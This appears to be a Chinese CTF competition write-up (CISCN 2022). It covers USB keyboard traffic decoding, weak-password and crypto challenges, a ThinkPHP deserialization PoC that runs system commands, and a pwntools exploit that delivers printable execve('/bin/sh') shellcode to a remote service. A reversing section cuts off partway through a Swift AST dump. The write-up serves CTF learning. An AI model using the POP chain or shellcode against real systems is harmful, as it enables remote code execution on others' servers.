00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:08:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:08:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:08:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:08:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:08:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:2a:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
01:00:00:00:00:00:00:00
01:00:08:00:00:00:00:00


# nemo @ nemo-home-desktop in D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123 [11:17:28]
$ python .\extract.py > usbdata.txt

$ python .\decode.py
Traceback (most recent call last):
  File "D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123\decode.py", line 10, in <module>
    for line in keys:
UnicodeDecodeError: 'gbk' codec can't decode byte 0xff in position 0: illegal multibyte sequence


# nemo @ nemo-home-desktop in D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123 [11:18:43] C:1
$ python .\decode.py
        526172211a0700<CAP>c<CAP>f907300000d00000000000000c4527424943500300000002<CAP>a000000<CAP>02b9f9b0530778b5541d33080020000000666c61672<CAP>e<CAP>747874<CAP>b9b<CAP>a013242f3a<CAP>fc<CAP>000b092c229d6e994167c05<CAP>a7<CAP>8708b271f<CAP>fc<CAP>042ae3d251e65536<CAP>f9a<CAP>da87c77406b67d0<CAP>e6316684766<CAP>a86e844d<CAP>c81aa2<CAP>c72c71348d10c4<CAP>c<DEL>3d7b<CAP>00400700
output :        526172211a0700Cf907300000d00000000000000c4527424943500300000002A00000002b9f9b0530778b5541d33080020000000666c61672E747874B9Ba013242f3aFC000b092c229d6e994167c05A78708b271fFC042ae3d251e65536F9Ada87c77406b67d0E6316684766a86e844dC81AA2c72c71348d10c43D7B00400700

# nemo @ nemo-home-desktop in D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123 [11:18:56]
$


  python .\extract.py
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00


# nemo @ nemo-home-desktop in D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123 [14:59:19]
$ python .\decode.py
35c535765e50074a
output :35c535765e50074a

# nemo @ nemo-home-desktop in D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123 [14:59:33]
$
```


## 基于挑战码的双向认证3

> by nemo

弱密码 `root:toor`，没什么好说的
建议下次开一个渗透专区



## 签到电台

“弼时安全到达了”对应的标准电码是：

1732 2514 1344 0356 0451 6671 0055

密码本对应数字为：

1177 9353 4729 1165 8637 9681 4984

模十运算后为：

2809 1867 5063 1411 8088 5252 4939

抓包修改其中的`msg`为`2809186750631411808852524939J`即可得到flag。

## 基于挑战码的双向认证

> by 清华哥

`cat /root/cube-shell/instance/flag_server/flag1.txt`

## 基于挑战码的双向认证2

> by 清华哥

`cat /root/cube-shell/instance/flag_server/flag2.txt`

## ISO9798

> by 清华哥

1. 爆破sha256：

```python
   from hashlib import sha256
   c = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
   for i1 in c:
       for i2 in c:
           for i3 in c:
               for i4 in c:
                   i = i1 + i2 + i3 + i4 + 'L0qw9i2qcJBpjz5H'
                   if sha256(i.encode()).hexdigest() == '71ab4dd87af420dda9c71af3d65fbce18b8c17c40b588c395b4c835455e24070':
                       print(i[:4])
```

2. 随便输入16字节数据`71fac1640fa2e6165518398d6a664ee8`得到`916f9dc683598404f8924824ed82dc18db8565fb8ea212e5d9a0ca9516a9cf79dbd3f26e5331104a5cee3a2bb289479e`ECB加密刚好是128bit一段，每段之间无联系，所以直接依次提交第二段和第一段即可。

## ezpop

> by 包子哥

扫目录发现源码

```
www.zip
```

检查源码发现攻击点：

```php
public function test()
{
unserialize($_POST['a']);
}
```

根据tp版本和反序列化漏洞，找到网上的poc

```php
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['cat /flag.txt']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    echo(urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}
```

传入payload攻击：


## login

> by 童帅

输入格式:`opt:1/2/3\nmsg:`

首先sub_CBD(发现会吞字符)
```
opt:1\nmsg:ro0ta\n
```
然后sub_DA8

```
opt:2\nmsg:{asm(sc).decode()}abc\n
```

这里需要一个可打印字符并且不包含冒号的shellcode，找到一篇博客https://hama.hatenadiary.jp/entry/2017/04/04/190129

代码如下

```python
from pwn import *

sc='''
/* from call rax */ 
push rdx 
push rdx 
pop rcx 
/* XOR pop rsi, pop rdi, syscall */ 
push 0x41413030 
pop rax 
xor DWORD PTR [rcx+0x30], eax 
/* XOR /bin/sh */ 
push 0x34303041 
pop rax 
xor DWORD PTR [rcx+0x34], eax 
push 0x41323041 
pop rax 
xor DWORD PTR [rcx+0x38], eax 

/* rdi = &'/bin/sh' */ 
push rcx 
pop rax 
xor al, 0x34 
push rax 

/ * rdx = 0 */ 
push 0x30 
pop rax 
xor al, 0x30 
push rax 
pop rdx 

push rax 

/* rax = 59 (SYS_execve) */ 
push 0x41 
pop rax 
xor al, 0x7a

/* pop rsi, pop rdi*/ 
/* 系统调用 */ 
.byte 0x6e 
.byte 0x6f 
.byte  0x4e 
.byte  0x44 

/* /bin/sh */ 
.byte 0x6e 
.byte 0x52
.byte 0x59 
.byte 0x5a 
.byte 0x6e 
.byte 0x43 
.byte 0x5a 
.byte 0x41
'''
# p=process('./login')
# p=remote('101.201.144.12', 26564)
context.arch='amd64'
# print(asm(sc))
context.terminal=['xfce4-terminal','-x','sh','-c']
# p=gdb.debug('./login')
p.sendlineafter(b'>>>',b'opt:1\nmsg:ro0tt\n')
print(asm(sc).decode())
p.sendlineafter(b'>>>',f'opt:2\nmsg:{asm(sc).decode()}abc\n'.encode())
p.interactive()
```

flag: `flag{d5621f2c-8334-43e9-ad8f-756e350361ea}`

## baby_tree

> by 童帅

r0,r1,r2,r3=b[i],b[i+1],b[i+2],b[i+3]

首先将输入和keyValue UTF8编码成b和k

然后进行一系列操作

```
(assign_expr type='()' location=re.swift:6:26 range=[re.swift:6:9 - line:6:57]
            (tuple_expr type='(@lvalue UInt8, @lvalue UInt8, @lvalue UInt8, @lvalue UInt8)' location=re.swift:6:9 range=[re.swift:6:9 - line:6:24] names='','','',''
              (declref_expr type='@lvalue UInt8' location=re.swift:6:10 range=[re.swift:6:10 - line:6:10] decl=re.(file).check(_:_:).r0@re.swift:4:9 function_ref=unapplied)
              (declref_expr type='@lvalue UInt8' location=re.swift:6:14 range=[re.swift:6:14 - line:6:14] decl=re.(file).check(_:_:).r1@re.swift:4:13 function_ref=unapplied)
              (declref_expr type='@lvalue UInt8' location=re.swift:6:18 range=[re.swift:6:18 - line:6:18] decl=re.(file).check(_:_:).r2@re.swift:4:17 function_ref=unapplied)
              (declref_expr type='@lvalue UInt8' location=re.swift:6:22 range=[re.swift:6:22 - line:6:22] decl=re.(file).check(_:_:).r3@re.swift:4:21 function_ref=unapplied)
            )
            (tuple_expr type='(UInt8, UInt8, UInt8, UInt8)' location=re.swift:6:28 range=[re.swift:6:28 - line:6:57] names='','','',''
              (load_expr implicit type='UInt8' location=re.swift:6:30 range=[re.swift:6:29 - line:6:32]
                (subscript_expr type='@lvalue UInt8' location=re.swift:6:30 range=[re.swift:6:29 - line:6:32] decl=Swift.(file).Array extension.subscript(_:) [with (substitution_map generic_signature=<Element> (substitution Element -> UInt8))]
                  (inout_expr implicit type='inout Array<UInt8>' location=re.swift:6:29 range=[re.swift:6:29 - line:6:29]
                    (declref_expr type='@lvalue [UInt8]' location=re.swift:6:29 range=[re.swift:6:29 - line:6:29] decl=re.(file).check(_:_:).b@re.swift:2:9 function_ref=unapplied))
                  (argument_list
                    (argument
                      (declref_expr type='Int' location=re.swift:6:31 range=[re.swift:6:31 - line:6:31] decl=re.(file).check(_:_:).i@re.swift:5:9 function_ref=unapplied)
                    )
                  )
                )
              )
              (load_expr implicit type='UInt8' location=re.swift:6:36 range=[re.swift:6:35 - line:6:40]
                (subscript_expr type='@lvalue UInt8' location=re.swift:6:36 range=[re.swift:6:35 - line:6:40] decl=Swift.(file).Array extension.subscript(_:) [with (substitution_map generic_signature=<Element> (substitution Element -> UInt8))]
                  (inout_expr implicit type='inout Array<UInt8>' location=re.swift:6:35 range=[re.swift:6:35 - line:6:35]
                    (declref_expr type='@lvalue [UInt8]' location=re.swift:6:35 range=[re.swift:6:35 - line:6:35] decl=re.(file).check(_:_:).b@re.swift:2:9 function_ref=unapplied))
                  (argument_list
                    (argument
                      (binary_expr type='Int' location=re.swift:6:38 range=[re.swift:6:37 - line:6:39] nothrow
                        (dot_syntax_call_expr implicit type='(Int, Int) -> Int' location=re.swift:6:38 range=[re.swift:6:38 - line:6:38] nothrow
                          (declref_expr type='(Int.Type) -> (Int, Int) -> Int' location=re.swift:6:38 range=[re.swift:6:38 - line:6:38] decl=Swift.(file).Int extension.+ function_ref=double)
                          (argument_list implicit
                            (argument
                              (type_expr implicit type='Int.Type' location=re.swift:6:38 range=[re.swift:6:38 - line:6:38] typerepr='Int'))
                          ))
                        (argument_list implicit
                          (argument
                            (declref_expr type='Int' location=re.swift:6:37 range=[re.swift:6:37 - line:6:37] decl=re.(file).check(_:_:).i@re.swift:5:9 function_ref=unapplied))
                          (argument
                            (integer_literal_expr type='Int' location=re.swift:6:39 range=[re.swift:6:39 - line:6:39] value=1 builtin_initializer=Swift.(file).Int.init(_builtinIntegerLiteral:) initializer=**NULL**))
                        )
                      )
                    )
                  )
                )
              )
              (load_expr implicit type='UInt8' location=re.swift:6:44 range=[re.swift:6:43 - line:6:48]
                (subscript_expr type='@lvalue UInt8' location=re.swift:6:44 range=[re.swift:6:43 - line:6:48] decl=Swift.(file).Array extension.subscript(_:) [with (substitution_map generic_signature=<Element> (substitution Element -> UInt8))]
                  (inout_expr implicit type='inout Array<UInt8>' location=re.swift:6:43 range=[re.swift:6:43 - line:6:43]
                    (declref_expr type='@lvalue [UInt8]' location=re.swift:6:43 range=[re.swift:6:43 - line:6:43] decl=re.(file).check(_:_:).b@re.swift:2:9 function_ref=unapplied))
                  (argument_list
                    (argument
                      (binary_expr type='Int' location=re.swift:6:46 range=[re.swift:6:45 - line:6:47] nothrow
                        (dot_syntax_call_expr implicit type='(Int, Int) -> Int' location=re.swift:6:46 range=[re.swift:6:46 - line:6:46] nothrow
                          (declref_expr type='(Int.Type) -> (Int, Int) -> Int' location=re.swift:6:46 range=[re.swift:6:46 - line:6:46] decl=Swift.(file).Int extension.+ function_ref=double)
                          (argument_list implicit
                            (argument
                              (type_expr implicit type='Int.Type' location=re.swift:6:46 range=[re.swift:6:46 - line:6:46] typerepr='Int'))
                          ))
                        (argument_list implicit
                          (argument
                            (declref_expr type='Int' location=re.swift:6:45 range=[re.swift:6:45 - line:6:45] decl=re.(file).check(_:_:).i@re.swift:5:9 function_ref=unapplied))
                          (argument
                            (integer_literal_expr type='Int' location=re.swift:6:47 range=[re.swift:6:47 - line:6:47] value=2 builtin_initializer=Swift.(file).Int.init(_builtinIntegerLiteral:) initializer=**NULL**))
                        )))
                  )
                )
              )
              (load_expr implicit type='UInt8' location=re.swift:6:52 range=[re.swift:6:51 - line:6:56]
                (subscript_expr type='@lvalue UInt8' location=re.swift:6:52 range=[re.swift:6:51 - line:6:56] decl=Swift.(file).Array extension.subscript(_:) [with (substitution_map generic_signature=<Element> (substitution Element -> UInt8))]
                  (inout_expr implicit type='inout Array<UInt8>' location=re.swift:6:51 range=[re.swift:6:51 - line:6:51]
                    (declref_expr type='@lvalue [UInt8]' location=re.swift:6:51 range=[re.swift:6:51 - line:6:51] decl=re.(file).check(_:_:).b@re.swift:2:9 function_ref=unapplied))
                  (argument_list
                    (argument
                      (binary_expr type='Int' location=re.swift:6:54 range=[re.swift:6:53 - line:6:55] nothrow
                        (dot_syntax_call_expr implicit type='(Int, Int) -> Int' location=re.swift:6:54 range=[re.swift:6:54 - line:6:54] nothrow
                          (declref_expr type='(Int.Type) -> (Int, Int) -> Int' location=re.swift:6:54 range=[re.swift:6:54 - line:6:54] decl=Swift.(file).Int extension.+ function_ref=double)
                          (argument_list implicit
                            (argument
                              (type_expr implicit type='Int.Type' location=re.swift:6:54 range=[re.swift:6:54 - line:6:54] typerepr='Int'))
                          ))
                        (argument_list implicit
                          (argument
                            (declref_expr type='Int' location=re.swift:6:53 range=[re.swift:6:53 - line:6:53] decl=re.(file).check(_:_:).i@re.swift:5:9 function_ref=unapplied))
                          (argument
                            (integer_literal_expr type='Int' location=re.swift:6:55 range=[re.swift:6:55 - line:6:55] value=3 builtin_initializer=Swift.(file).Int.init(_builtinIntegerLiteral:) initializer=**NULL**))
                        )))
                  )
                )
              )
            )
          )
```
相当于`r0,r1,r2,r3=b[i+0],b[i+1],b[i+2],b[i+3]`

接下来是计算

```
(assign_expr type='()' location=re.swift:7:16 range=[re.swift:7:9 - line:7:49]
            (subscript_expr type='@lvalue UInt8' location=re.swift:7:10 range=[re.swift:7:9 - line:7:14] decl=Swift.(file).Array extension.subscript(_:) [with (substitution_map generic_signature=<Element> (substitution Element -> UInt8))]
              (inout_expr implicit type='inout Array<UInt8>' location=re.swift:7:9 range=[re.swift:7:9 - line:7:9]
                (declref_expr type='@lvalue [UInt8]' location=re.swift:7:9 range=[re.swift:7:9 - line:7:9] decl=re.(file).check(_:_:).b@re.swift:2:9 function_ref=unapplied))
              (argument_list
                (argument
                  (binary_expr type='Int' location=re.swift:7:12 range=[re.swift:7:11 - line:7:13] nothrow
                    (dot_syntax_call_expr implicit type='(Int, Int) -> Int' location=re.swift:7:12 range=[re.swift:7:12 - line:7:12] nothrow
                      (declref_expr type='(Int.Type) -> (Int, Int) -> Int' location=re.swift:7:12 range=[re.swift:7:12 - line:7:12] decl=Swift.(file).Int extension.+ function_ref=double)
                      (argument_list implicit
                        (argument
                          (type_expr implicit type='Int.Type' location=re.swift:7:12 range=[re.swift:7:12 - line:7:12] typerepr='Int'))
                      ))
                    (argument_list implicit
                      (argument
                        (declref_expr type='Int' location=re.swift:7:11 range=[re.swift:7:11 - line:7:11] decl=re.(file).check(_:_:).i@re.swift:5:9 function_ref=unapplied))
                      (argument
                        (integer_literal_expr type='Int' location=re.swift:7:13 range=[re.swift:7:13 - line:7:13] value=0 builtin_initializer=Swift.(file).Int.init(_builtinIntegerLiteral:)initializer=**NULL**))
                    )))
              )
            )
            (binary_expr type='UInt8' location=re.swift:7:21 range=[re.swift:7:18 - line:7:49] nothrow
              (dot_syntax_call_expr implicit type='(UInt8, UInt8) -> UInt8' location=re.swift:7:21 range=[re.swift:7:21 - line:7:21] nothrow
                (declref_expr type='(UInt8.Type) -> (UInt8, UInt8) -> UInt8' location=re.swift:7:21 range=[re.swift:7:21 - line:7:21] decl=Swift.(file).UInt8 extension.^ function_ref=single)
                (argument_list implicit
                  (argument
                    (type_expr implicit type='UInt8.Type' location=re.swift:7:21 range=[re.swift:7:21 - line:7:21] typerepr='UInt8'))
                )
              )
              (argument_list implicit
                (argument
                  (load_expr implicit type='UInt8' location=re.swift:7:18 range=[re.swift:7:18 - line:7:18]
                    (declref_expr type='@lvalue UInt8' location=re.swift:7:18 range=[re.swift:7:18 - line:7:18] decl=re.(file).check(_:_:).r2@re.swift:4:17 function_ref=unapplied)
                  )
                )
                (argument
                  (paren_expr type='(UInt8)' location=re.swift:7:43 range=[re.swift:7:23 - line:7:49]
